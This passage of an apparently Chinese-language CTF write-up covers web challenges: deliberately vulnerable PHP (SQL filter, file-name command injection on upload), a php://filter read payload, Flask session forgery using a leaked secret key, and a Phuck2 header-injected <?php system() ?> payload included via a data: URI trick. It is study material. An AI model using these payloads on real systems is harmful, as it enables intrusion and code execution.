    $blacklist = "information|benchmark|order|limit|join|file|into|execute|column|extractvalue|floor|update|insert|delete|username|password";
    $whitelist = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'(),_*`-@=+><";
    for ($i = 0; $i < strlen($string); $i++) {
        if (strpos("$whitelist", $string[$i]) === false) {
            Hacker();
        }
    }
    if (preg_match("/$blacklist/is", $string)) {
        Hacker();
    }
    if (is_string($string)) {
        return $mysqli->real_escape_string($string);
    } else {
        return "";
    }
}

function sql_query($sql_query)
{
    global $mysqli;
    $res = $mysqli->query($sql_query);
    return $res;
}

function login($user, $pass)
{
    $user = Filter($user);
    $pass = md5($pass);
    $sql = "select * from `albert_users` where `username_which_you_do_not_know`= '$user' and `password_which_you_do_not_know_too` = '$pass'";
    echo $sql;
    $res = sql_query($sql);
//    var_dump($res);
//    die();
    if ($res->num_rows) {
        $data = $res->fetch_array();
        $_SESSION['user'] = $data[username_which_you_do_not_know];
        $_SESSION['login'] = 1;
        $_SESSION['isadmin'] = $data[isadmin_which_you_do_not_know_too_too];
        return true;
    } else {
        return false;
    }
    return;
}

function updateadmin($level,$user)
{
    $sql = "update `albert_users` set `isadmin_which_you_do_not_know_too_too` = '$level' where `username_which_you_do_not_know`='$user' ";
    echo $sql;
    $res = sql_query($sql);
//    var_dump($res);
//    die();
//    die($res);
    if ($res == 1) {
        return true;
    } else {
        return false;
    }
    return;
}

function register($user, $pass)
{
    global $mysqli;
    $user = Filter($user);
    $pass = md5($pass);
    $sql = "insert into `albert_users`(`username_which_you_do_not_know`,`password_which_you_do_not_know_too`,`isadmin_which_you_do_not_know_too_too`) VALUES ('$user','$pass','0')";
    $res = sql_query($sql);
    return $mysqli->insert_id;
}

function logout()
{
    session_destroy();
    Header("Location: index.php");
}
?>
```

读ffffllllaaaaggg报错



```php
    $keywords = ["flag","manage","ffffllllaaaaggg","info"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
```

这里，parse_url解析漏洞

这样`//user.php?page=php://filter/convert.base64-encode/resource=ffffllllaaaaggg`

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}else {
    echo "you can find sth in m4aaannngggeee";
}
?>
```

提示：

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}
include "templates/upload.html";

?>
```

不是文件上传，读`upllloadddd.php`

```php
<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/";
$filename = $_FILES['file']['name'];
if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
        die("error:can not move");
    }
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success<br />";
echo $filename;
$picdata = system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");
echo "</img>";
if($_FILES['file']['error']>0){
    unlink($newfile);
    die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
    unlink($newfile);
}
?>
```

文件名的代码执行漏洞

/user.php?page=m4aaannngggeee ，上传






### [PASECA2019] honey_shop

session应该是flask，读下



读/proc/self/environ，`纪录当前进程(也就是python)的环境变量`，拿到秘钥



解密：

```sh
flask-session-cookie-manager> python .\flask_session_cookie_manager3.py decode -s "tyQ0KBJ0RLDuomGI7GFe1KJDtvfymdE9cHzAuMx5" -c "eyJiYWxhbmNlIjoxMzM2LCJwdXJjaGFzZXMiOltdfQ.YdmjWw.G70lE_ZXpCiNMCOpwzfOMyUpLi0" 
{'balance': 1336, 'purchases': []}
```


```sh
flask-session-cookie-manager> python .\flask_session_cookie_manager3.py encode -s "tyQ0KBJ0RLDuomGI7GFe1K> python .\flask_session_cookie_manager3.py encode -s "tyQ0KBJ0RLDuomGI7GFe1KJDtvfymdE9cHzAuMx5" -t "{'balance': 1337, 'purchases': []}"
eyJiYWxhbmNlIjoxMzM3LCJwdXJjaGFzZXMiOltdfQ.YdmlCg.oYdIHfCg-zu28UkP-KhxNQ9fC4k
```



### Phuck2

buu打开没提示，以为是环境的问题，后面要加上?hl，应该是原题有提示

```php
<?php
    stream_wrapper_unregister('php');
    if(isset($_GET['hl'])) highlight_file(__FILE__);

    $mkdir = function($dir) {
        system('mkdir -- '.escapeshellarg($dir));
    };
    $randFolder = bin2hex(random_bytes(16));
    $mkdir('users/'.$randFolder);
    chdir('users/'.$randFolder);

    $userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
    $userFolder = basename(str_replace(['.','-'],['',''],$userFolder));

    $mkdir($userFolder);
    chdir($userFolder);
    file_put_contents('profile',print_r($_SERVER,true));
    chdir('..');
    $_GET['page']=str_replace('.','',$_GET['page']);
    if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
        include($_GET['page']);
    }

    chdir(__DIR__);
    system('rm -rf users/'.$randFolder);

?>
```

首先在users目录下随机创建了个文件夹，之后进入该文件夹。

判断是否设置HTTP_X_FORWARDED_FOR，否者使用REMOTE_ADDR，之后将\$userFolder中的.和-去除，之后进入\$userFolder的目录。

将\$server的一些环境变量信息写入profile，返回上级目录。

去除page的.和<?和php，之后堆page进行包含，之后删库跑路。

可以本地测试下：

```php
<?php
highlight_file(__FILE__);
chdir('./');
file_put_contents('profile.txt',print_r($_SERVER,true));
include("./profile.txt");
```

考点的内容：

include 与 file_get_contents 在关于 Data URI 处理问题上的问题，include () 与 file_get_contents () 支持Data URI，而且在处理的时候，出现了差异.

先看`file_get_contents`：直接返回`data:,`之后的内容

```php
<?php
print(file_get_contents("data:,123/profile"));
print("\n");
print(file_get_contents("data:,profile"));
print("\n");
#out:
#123/profile profile
```

而在` allow_url_include=Off` 的情况下，不允许 include data URI 的，但是如果 `data:,XXX` 是一个目录名的话，可以绕过限制，包含到`/`后边的文件:

```php
<?php	
print(include("data:,123/profile"));
print("\n");
print(include("data:,profile"));
print("\n");
```

---------

当allow_url_include=Off时：
file_get_contents在处理data:xxx时会直接取xxx
而include会包含文件名为data:xxx的文件

```php
file_get_contents('data:,xx/profile');   --> string 'xx/profile'
include('data:,xx/profile');             --> 'data:,xx/profile'
```

---------

include的时候可以解析php语句，

payload:

```php
GET /?page=data:,aa/profile HTTP/1.1
X-Forwarded-For: data:,aa  #创建名字为data:,xx的文件夹
ss: <?php system('ls /'); ?>
    
GET /?page=data:,aa/profile HTTP/1.1
X-Forwarded-For: data:,aa
ss: <?php system('/get_flag'); ?>
    
实际上file_get_contents('xx/profile') 不存在xx文件夹，结果为false绕过if判断
然后include(data:,xx/profile),里面是$_SERVER的内容，其中包含php语句执行的结果


```

```
Array
(
    [HTTP_X_FORWARDED_FOR] => data:aa
    [HTTP_SS] => flag{5acc61fc-d4f7-4748-97e0-b655e4e8fb01}
    [HTTP_HOST] => node4.buuoj.cn:28170
    [HTTP_USER_AGENT] => Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
    [HTTP_ACCEPT] => text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    [HTTP_ACCEPT_LANGUAGE] => zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    [HTTP_ACCEPT_ENCODING] => gzip, deflate
    [HTTP_CONNECTION] => close
    [HTTP_UPGRADE_INSECURE_REQUESTS] => 1
    [HTTP_CACHE_CONTROL] => max-age=0
    [PATH] => /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    [SERVER_SIGNATURE] => <address>Apache/2.4.18 (Ubuntu) Server at node4.buuoj.cn Port 28170</address>

    [SERVER_SOFTWARE] => Apache/2.4.18 (Ubuntu)
    [SERVER_NAME] => node4.buuoj.cn
    [SERVER_ADDR] => 10.244.80.124
    [SERVER_PORT] => 28170
    [REMOTE_ADDR] => 10.244.80.46
    [DOCUMENT_ROOT] => /var/www/html
    [REQUEST_SCHEME] => http
    [CONTEXT_PREFIX] => 
    [CONTEXT_DOCUMENT_ROOT] => /var/www/html
    [SERVER_ADMIN] => webmaster@localhost
    [SCRIPT_FILENAME] => /var/www/html/index.php
    [REMOTE_PORT] => 46206
    [GATEWAY_INTERFACE] => CGI/1.1
    [SERVER_PROTOCOL] => HTTP/1.1
    [REQUEST_METHOD] => GET
    [QUERY_STRING] => page=data:aa/profile
    [REQUEST_URI] => /?page=data:aa/profile
    [SCRIPT_NAME] => /index.php
    [PHP_SELF] => /index.php
    [REQUEST_TIME_FLOAT] => 1641744281.579
    [REQUEST_TIME] => 1641744281
)

```


### [网鼎杯 2020 总决赛]Game Exp
